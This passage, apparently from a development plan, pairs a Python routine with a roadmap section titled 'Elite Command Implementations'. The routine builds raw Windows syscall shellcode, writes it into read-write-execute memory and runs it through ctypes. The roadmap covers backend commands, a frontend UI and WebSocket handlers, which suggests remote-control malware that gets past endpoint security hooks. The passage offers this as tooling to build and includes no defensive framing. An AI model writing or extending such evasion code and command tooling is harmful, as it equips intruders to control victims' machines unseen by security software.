 ```python
        """Execute syscall with given number and arguments"""
        # Assembly shellcode for syscall
        # MOV R10, RCX
        # MOV EAX, syscall_num
        # SYSCALL
        # RET
        
        shellcode = (
            b'\x4C\x8B\xD1' +  # MOV R10, RCX
            b'\xB8' + struct.pack('<I', syscall_num) +  # MOV EAX, syscall_num
            b'\x0F\x05' +  # SYSCALL
            b'\xC3'  # RET
        )
        
        # Allocate executable memory
        MEM_COMMIT = 0x1000
        MEM_RESERVE = 0x2000
        PAGE_EXECUTE_READWRITE = 0x40
        
        kernel32 = ctypes.windll.kernel32
        addr = kernel32.VirtualAlloc(0, len(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)
        
        # Write shellcode
        ctypes.memmove(addr, shellcode, len(shellcode))
        
        # Create function prototype and call
        func_type = ctypes.WINFUNCTYPE(ctypes.c_long, *[ctypes.c_void_p] * len(args))
        func = func_type(addr)
        result = func(*args)
        
        # Free memory
        kernel32.VirtualFree(addr, 0, 0x8000)  # MEM_RELEASE
        
        return result
```

---

## PHASE 3: ELITE COMMAND IMPLEMENTATIONS (Weeks 5-8)

### ⚠️ STRICT IMPLEMENTATION ORDER - DO NOT SKIP AROUND

**IMPORTANT:** Implement commands in this EXACT order. Do not jump ahead. Complete each tier before moving to the next.

### Implementation Strategy to Prevent Skipping:

1. **Implement ONE command completely:**
   - Backend elite implementation
   - Frontend button/UI
   - WebSocket handler
   - Result formatter
   - Test end-to-end
   